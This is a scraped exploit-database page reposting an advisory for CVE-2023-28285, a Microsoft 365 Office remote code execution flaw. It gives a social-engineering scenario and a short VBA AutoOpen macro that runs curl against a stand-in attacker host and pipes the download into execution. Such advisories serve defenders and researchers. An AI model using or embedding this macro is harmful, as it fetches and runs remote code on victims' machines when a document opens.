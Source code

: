 ```yaml
---
title: Microsoft 365 MSO 2305 Build 16.0.16501.20074 Remote Code Execution exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173140&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-28
fetch_date: 2025-10-04T11:46:04.420800
---
```


# Microsoft 365 MSO 2305 Build 16.0.16501.20074 Remote Code Execution exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Microsoft 365 MSO 2305 Build 16.0.16501.20074 Remote Code Execution CVE-2023-28285

2023-06-27 | CVSS 7.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173140
## Title: Microsoft 365 MSO (Version 2305 Build 16.0.16501.20074)
64-bit Remote Code Execution Vulnerability
## Author: nu11secur1ty
## Date: 04.17.2023
## Vendor: https://www.microsoft.com/
## Software: https://www.microsoft.com/en-us/microsoft-365/
## Reference: https://www.crowdstrike.com/cybersecurity-101/remote-code-execution-rce/
## CVE-2023-28285

## Description:
The attack itself is carried out locally by a user with authentication
to the targeted system. An attacker could exploit the vulnerability by
convincing a victim, through social engineering, to download and open
a specially crafted file from a website which could lead to a local
attack on the victim's computer. The attacker can trick the victim to
open a malicious web page by using a malicious `Word` file for
`Office-365 API`. After the user will open the file to read it, from
the API of Office-365, without being asked what it wants to activate,
etc, he will activate the code of the malicious server, which he will
inject himself, from this malicious server. Emedietly after this
click, the attacker can receive very sensitive information! For bank
accounts, logs from some sniff attacks, tracking of all the traffic of
the victim without stopping, and more malicious stuff, it depends on
the scenario and etc.
STATUS: HIGH Vulnerability

[+]Exploit:
The exploit server must be BROADCASTING at the moment when the victim
hit the button of the exploit!

[+]PoC:
```cmd
Sub AutoOpen()
Call Shell("cmd.exe /S /c" & "curl -s
http://attacker.com/CVE-2023-28285/PoC.debelui | debelui",
vbNormalFocus)
End Sub
```

## FYI:
The PoC has a price and this report will be uploaded with a
description and video of how you can reproduce it only.

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/tree/main/2023/CVE-2023-28285)

## Proof and Exploit
[href](https://www.nu11secur1ty.com/2023/04/cve-2023-28285-microsoft-office-remote.html)

## Time spend:
01:30:00

--
System Administrator - Infrastructure Engineer
Penetration Testing Engineer
Exploit developer at https://packetstormsecurity.com/
https://cve.mitre.org/index.htmlhttps://cxsecurity.com/ and
https://www.exploit-db.com/
0day Exploit DataBase https://0day.today/
home page: https://www.nu11secur1ty.com/
hiPEnIMR0v7QCo/+SEH9gBclAAYWGnPoBIQ75sCj60E=
nu11secur1ty <http://nu11secur1ty.com/>

--
System Administrator - Infrastructure Engineer
Penetration Testing Engineer
Exploit developer at https://packetstormsecurity.com/
https://cve.mitre.org/index.html
https://cxsecurity.com/ and https://www.exploit-db.com/
0day Exploit DataBase https://0day.today/
home page: https://www.nu11secur1ty.com/
hiPEnIMR0v7QCo/+SEH9gBclAAYWGnPoBIQ75sCj60E=
nu11secur1ty <http://nu11secur1ty.com/>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)